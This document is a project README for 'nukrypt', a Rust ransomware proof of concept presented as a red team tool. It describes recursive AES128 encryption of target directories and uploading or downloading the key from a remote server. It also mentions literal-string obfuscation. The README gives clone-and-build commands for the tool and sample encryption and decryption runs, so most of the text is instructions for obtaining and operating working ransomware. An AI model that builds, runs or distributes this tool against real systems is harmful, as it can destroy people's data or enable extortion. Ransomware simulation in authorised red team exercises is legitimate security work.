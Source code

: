 nukrypt
=======
A ransomware PoC written in Rust. `nukrypt` will recursively traverse all directories given to it as CLI arguments and encrypt files using AES128. The 128-bit key can either be generated at runtime or read/downloaded from an existing file/URL. The AES IV is written to the beginning of each encrypted file. Encrypted files are suffixed with `.nukrypt`.

**Disclaimer**: the purpose of this project is to simulate the impact of ransomware during red team exercises and should not be used for illegal objectives.


Features
--------
- AES128
- Literal encryption using [litcrypt](https://docs.rs/litcrypt/latest/litcrypt/)
- Download or upload AES key from a remote server.
- Some safeguards to prevent unintended data loss.


Compilation
-----------
- Simply `git clone` the repository and `cargo build` the project:
```
$ git clone https://github.com/hiatus/nukrypt
$ cd nukrypt
$ cargo build --release
```


Usage
-----
- Command line banner:
```
USAGE:
    nukrypt [FLAGS] [OPTIONS] <dir>...

FLAGS:
    -d, --decrypt    Decrypt instead of encrypting
    -h, --help       Prints help information
    -V, --version    Prints version information

OPTIONS:
    -k, --key-file <file|url>    Read/write AES key from/to [file] or download/upload from/to [url]

ARGS:
    <dir>...    Folder(s) to recursively encrypt or decrypt
```

### Encrypt
In encryption mode (not specifying the `-d` option), `nukrypt` will first attempt to read the key either from a remote server or from a local file (depending on what was given as argument to `-k`). If the key cannot be read, it will generate it and either upload it or save it locally (in the URL or path given). After this, all `dir`s will be recursively encrypted.

```
$ nukrypt -k nukrypt.key ./encrypt-me/
[+] Encryption key written to nukrypt.key

[#] Encrypting: ./encrypt-me/notes.txt
[#] Encrypting: ./encrypt-me/project/curriculum.pdf
[#] Encrypting: ./encrypt-me/project/accounting.xlsx

[+] 3 files encrypted in 0.002 seconds
```

### Decrypt
When called with option `-d`, `nukrypt` will attempt to read the key either from a remote server or from a local file and recursively decrypt all `dir`s.
```
$ nukrypt -dk nukrypt.key ./encrypt-me/
[+] AES key read from nukrypt.key

[#] Decrypting: ./encrypt-me/notes.txt.nukrypt
[#] Decrypting: ./encrypt-me/project/curriculum.pdf.nukrypt
[#] Decrypting: ./encrypt-me/project/accounting.xlsx.nukrypt

[+] 3 files decrypted in 0.000 seconds
```
